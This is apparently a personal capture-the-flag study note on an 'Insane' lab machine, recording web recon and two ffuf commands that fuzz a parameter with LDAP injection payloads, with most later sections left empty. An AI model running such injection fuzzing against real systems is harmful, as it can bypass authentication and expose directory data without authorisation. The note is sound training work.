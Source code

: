 # CTF Helped-Through

Name: CTF
Date:  
Difficulty:  Insane
Goals:  
- LDAP Injection Attack revised, understood and noted in my Archive
- Adapt the script a team had to suit new attack scenarios
Learnt:
Beyond Root:
- Adapt the script
- LDAP page in Archive complete

- [[CTF-Notes.md]]
- [[CTF-CMD-by-CMDs.md]]

One of the season 4 machine contains this exploit I want to solidify and revise my understanding of this because will trying to do this manually I failed with online resources that were not mine. I will do the usual recon with the exploit in mind for the first hour the follow along. [IppSec](https://www.youtube.com/watch?v=51JQg202csw) is awesome.
## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128. This machine has rate limiting protections and blacklisting IP to prevent content discovery tools and scanning 
![ping](Screenshots/ping.png)

`/manual/`  from `feroxbuster`, and the `login.php` and `status.php` pages found by `gospider` look interesting.
## Exploit

```bash
# LDAP-active-directory-attributes.txt
# LDAP-active-directory-classes.txt
# LDAP-openldap-attributes.txt
# LDAP-openldap-classes.txt
# LDAP.Fuzzing.txt

ffuf -u 'http://ctf.htb/param=FUZZ*' -c -w /usr/share/seclists/Fuzzing/chars.txt:FUZZ  -mc all


ffuf -u 'http://ctf.htb/param=*)(FUZZ=*' -c -w /usr/share/seclists/Fuzzing/$LDAPWORDLIST:FUZZ -mc all -x http://127.0.0.1:8080 # remember to apply FFUF filters and have burpsuite running
```


## Foothold

## Privilege Escalation

## Post-Root-Reflection  

![](CTF-map.excalidraw.md)

## Beyond Root


